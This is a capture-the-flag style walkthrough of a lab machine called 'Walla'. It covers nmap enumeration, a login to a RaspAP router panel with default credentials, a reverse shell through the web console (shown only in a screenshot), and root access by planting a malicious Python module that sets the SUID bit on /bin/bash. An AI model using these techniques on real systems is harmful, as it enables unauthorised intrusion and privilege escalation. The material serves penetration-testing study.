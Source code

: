 # Walla

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:22 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

Telnet is enabled, which is always great. Ran a detailed `nmap` scan too:

```
$ sudo nmap -p 22,23,25,53,422,8091,42042 -sC -sV -O --min-rate 3000 192.168.197.97
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:24 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
```

### Weak Creds --> Web Console

I took a look at port 8081 first, and found that it had a HTTP login:

<figure><img src="../../../.gitbook/assets/image (162) (4).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:secret` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (98) (7).png" alt=""><figcaption></figcaption></figure>

This is running RaspAP, which is a wireless router software. We can find the version by heading to 'About RaspAP':

<figure><img src="../../../.gitbook/assets/image (7) (10).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits for this:

```
$ searchsploit raspap       
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
----------------------------------------------------------- ---------------------------------
```

However, we don't actually need any exploits because within the 'System' tab, there's a Console present:

<figure><img src="../../../.gitbook/assets/image (161) (5).png" alt=""><figcaption></figcaption></figure>

A reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (6) (15).png" alt=""><figcaption></figcaption></figure>

Grab the user flag from the home directory of `walter`.

## Privilege Escalation

### Sudo Privileges --> Module RCE

I ran a `linpeas.sh` scan to enumerate for me. Here's the interesting output:

```
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
    
[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d 
You have write privileges over /lib/systemd/system/raspapd.service
```

The `wifi_reset.py` file looks the easiest to exploit:

```
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

This is pretty easy to exploit. We can create a script `wificontroller.py` and place it within the `/home/walter` directory. Here's the contents of it:

```python
import os
os.system("chmod u+s /bin/bash")
```

Then, we can attempt to run the `wifi_reset.py` script and easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>
